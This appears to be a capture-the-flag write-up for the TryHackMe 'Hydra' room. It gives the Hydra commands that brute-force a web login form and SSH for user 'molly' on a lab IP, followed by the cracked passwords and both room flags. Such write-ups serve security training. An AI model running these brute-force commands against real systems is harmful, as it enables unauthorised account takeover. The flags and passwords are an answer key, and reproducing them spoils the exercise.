







##### Link: [Hydra](https://tryhackme.com/room/hydra)
---
##### Task 1: Hydra Introduction
1. Read the above and have Hydra at the ready.
	- `No answer needed`
---
##### Task 2: Using Hydra
1. Use Hydra to brute-force molly's web password. What is the value of flag 1?
	- Open target, we see login form at `/login`
		- 
	- Try login with random credential, we found response for wrong credentials are `Your username or password is incorrect.`
		- 
	- Check the request in Burp proxy, we found the parameter names are `username` & `password` 
		- 
	- Run `hydra` using all gathered information
		- `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.48.182.121 http-post-form "/login:username=^USER^&password=^PASS^:F=Your username or password is incorrect."`
			- 
	- The password is `shunshine`. Now login to read the flag.
		- 
	- `THM{2673a7dd116de68e85c48ec0b1f2612e}`
2. Use Hydra to brute-force molly's SSH password. What is the value of flag 2?
	- Run `hydra`
		- `hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.48.182.121 ssh`
			- 
	- Then login
		- `ssh molly@10.48.182.121`
		- `yes`
		- When prompted for password: `butterfly`
			- 
	- Then obtain the flag
		- `ls`
		- `cat flag2.txt`
	- `THM{c8eeb0468febbadea859baeb33b2541b}`
		- 
---
